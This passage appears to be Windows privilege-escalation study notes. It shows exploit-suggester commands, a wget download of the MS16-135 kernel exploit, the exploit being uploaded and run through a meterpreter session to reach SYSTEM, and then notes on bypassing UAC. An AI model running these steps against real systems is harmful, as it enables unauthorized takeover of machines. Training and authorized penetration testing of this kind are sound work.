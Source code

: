 <figure><img src="../../.gitbook/assets/50.png" alt=""><figcaption></figcaption></figure>

Execute the `systeminfo` command and copy-paste in the file `win7.txt`. Clone the git repository Windows-Exploit-Suggester.

```bash
john@attacker> cd Windows-Enum/Windows-Exploit-Suggester
john@attacker> ./windows-exploit-suggester.py --update
john@attacker> ./windows-exploit-suggester.py --database 2021-12-26-mssb.xls --systeminfo ~/Desktop/win7.txt
```

There is a good repository to find kernel exploit : https://github.com/SecWiki/windows-kernel-exploits/blob/master/.

```bash
john@attacker> wget -O 41015.exe https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-135/41015.exe

meterpreter> cd C:\Temp
meterpreter> upload ~/Downloads/41015.exe
meterpreter> shell

C:\Temp> .\41015.exe
C:\Temp> .\41015.exe 7

C:\Temp> whoami  # nt authority\system
```

### Bypassing UAC with UACMe

#### UAC

* User Account Control (UAC) is a Windows security feature introduced in Windows Vita that is used to prevent unauthorized changes from being made to the operating system.
* UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.
* A non-privileged user attempting to execute a program with elevated privileges well be prompted with the UAC **credential prompt**, whedreas a privileged user will be prompted with a **consent prompt**.
* Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

#### How to bypass

* In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the Windows target system.
* UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.
* UAC has various intergrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation.
* There are multiple tools and techniques that can be used to bypass UAC, however, the tool and techniquer used will depend on the version of Windows running on the target system.

